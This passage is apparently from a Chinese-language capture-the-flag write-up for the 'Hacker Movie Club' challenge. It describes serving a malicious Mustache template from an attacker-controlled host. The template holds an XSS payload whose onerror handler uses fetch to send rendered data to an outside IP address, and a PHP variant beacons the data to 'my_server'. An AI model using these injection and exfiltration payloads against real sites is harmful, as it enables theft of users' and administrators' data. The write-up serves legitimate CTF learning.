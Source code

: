 在使用浏览器刷新一下:

![](/home/tianji/Desktop/22.png)

可以看到这时候请求`http://1.2.3.4/cdn/main.mst`。然后，构造好模板文件，让管理员访问即可。

构造main.mst如下:

```
<div class="header">
Hacker Movie Club
</div>

<div class="header admin">
Welcome to the desert of the real.
</div>

<table class="movies">
<thead>
 <th>Name</th><th>Year</th><th>Length</th>
</thead>
<tbody>
{{#movies}}
    <tr>
      <td>{{ name }}</td>
      <td>{{ year }}</td>
      <td>{{ length }}</td>
    </tr>
{{/movies}}
</tbody>
</table>

<div class="captcha">
  <div id="captcha"></div>
</div>
<button id="report" type="submit" class="report"></button>
<img src=x onerror="fetch('http://123.207.90.143/'+'{{#movies}}{{ name }}{{/movies}}')">
```

如果使用apache或者nginx,可以使用如下代码:

同时修改`.htaccess`

```
AddType application/x-httpd-php .php .mst
```

`main.mst`：

```
<?php Header("Access-Control-Allow-Origin: *"); ?>
<img src="http://my_server/?c={{#movies}}{{name}}{{/movies}}"></img>
```

或者修改一下配置文件。

![](/home/tianji/Desktop/45640104-590fbb80-bacf-11e8-9201-29f2ff6fc03d.png)
